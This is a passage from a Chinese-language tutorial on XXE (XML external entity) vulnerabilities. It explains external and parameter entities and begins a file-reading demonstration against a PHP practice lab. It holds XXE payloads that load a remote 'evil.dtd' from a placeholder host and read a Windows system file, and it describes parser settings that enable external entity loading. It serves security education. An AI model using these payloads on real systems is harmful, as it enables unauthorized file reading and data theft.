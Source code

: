 实例2.2:外部声明实体外部实体用来引用外部资源,有两个关键字SYSTEM和PUBLIC两个,表示实体来自本地计算机还是公共计算机,外部实体的利用会用到协议如下:

不同语言下支持的协议:

![1612762454_6020cd56f1bb091df52fd.png!small](https://image.3001.net/images/20210208/1612762454_6020cd56f1bb091df52fd.png!small)

```
<?xml version="1.0"?> 
<!DOCTYPE note[ 
<!ELEMENT note (name)> 
<!ENTITY hack3r "http://www.chenguanxin.com"> 
]> 
<note> <name>&hack3r;</name> </note>
```

参数实体参数实体只能在DTD中定义和使用实体，一般的话引用时%作为前缀。而内部实体是指在一个实体中定义的另一个实体，说白了就是嵌套的。

```
<!ENTITY %实体名称 "值">
<!ENTITY %实体名称 SYSTEM "URL">
```

实例:

```
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >
%xxe;]>
<foo>&evil;</foo>
```

而里面引用的外部实体evil.dtd的内容:

```
<!ENTITY evil SYSTEM “file:///c:/windows/win.ini” >
```

正因为外部实体支持的http,file等协议,那么就有可能通过以用外部实体进行远程文件读取。

### 2.xxe漏洞危害

综上所述，xxe漏洞就是允许了引入外部实体的加载，从而导致程序在解析xml的时候，可以加载恶意外部文件，从而造成文件读取等危害。

## 利用

**2.1 文件读取（有回显）**

xxe-php靶场演示：

![1612762580_6020cdd473ff01fc3b275.png!small](https://image.3001.net/images/20210208/1612762580_6020cdd473ff01fc3b275.png!small)

我们先看一下dologin.php代码

![1612762607_6020cdef9370b1873b9cd.png!small](https://image.3001.net/images/20210208/1612762607_6020cdef9370b1873b9cd.png!small)

libxml_disable_entity_loader(false);函数意思就是不禁止外部实体加载；file_get_contents()函数，把整个文件读入一个字符串中。LIBXML_NOENT: 将 XML 中的实体引用 替换 成对应的值LIBXML_DTDLOAD: 加载 DOCTYPE 中的 DTD 文件 通过php://input协议获取POST请求数据，然后把数据通过file_get_contents()函数，放在$xmlfile变量中。
